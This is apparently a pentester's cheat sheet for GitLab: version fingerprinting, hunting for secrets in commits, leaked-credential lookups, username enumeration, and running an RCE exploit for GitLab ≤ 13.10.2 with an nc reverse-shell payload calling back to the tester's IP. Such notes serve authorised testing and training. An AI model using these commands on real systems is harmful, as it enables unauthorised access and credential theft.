 
- Login Page: `http://gitlab.<target>/users/sign_in`
- Version Check: `curl -s http://gitlab.<target>/help | grep -oP 'GitLab \K[\d.]+'`
- Search for hardcoded credentials, API keys, or SSH keys in commits.
- Try registering with common usernames `admin`, `root`, `gitlab`
- Search for secrets `grep -r "password\|api_key\|secret" .`
- Always check /explore for public repos
- Search commits for secrets (git log -p)
- Find leaked creds (e.g., from Dehashed) `python3 dehashed.py -q <target_domain> -p`
- Combine with TruffleHog to scan repos for secrets! `trufflehog git http://gitlab.<target>/root/repo.git
`

#### Username Enumeration
```
./gitlab_userenum.sh --url http://gitlab.<target>:8081/ --userlist users.txt
```

### Exploitation (RCE in GitLab ≤ 13.10.2)
#### Prerequisites
- Valid credentials (or self-registration if allowed).
- Vulnerable version (≤ 13.10.2).
#### Use Exploit Script:
```bash
python3 gitlab_13_10_2_rce.py -t http://gitlab.<target>:8081 -u <user> -p <password> -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <YOUR_IP> 8443 >/tmp/f'
```
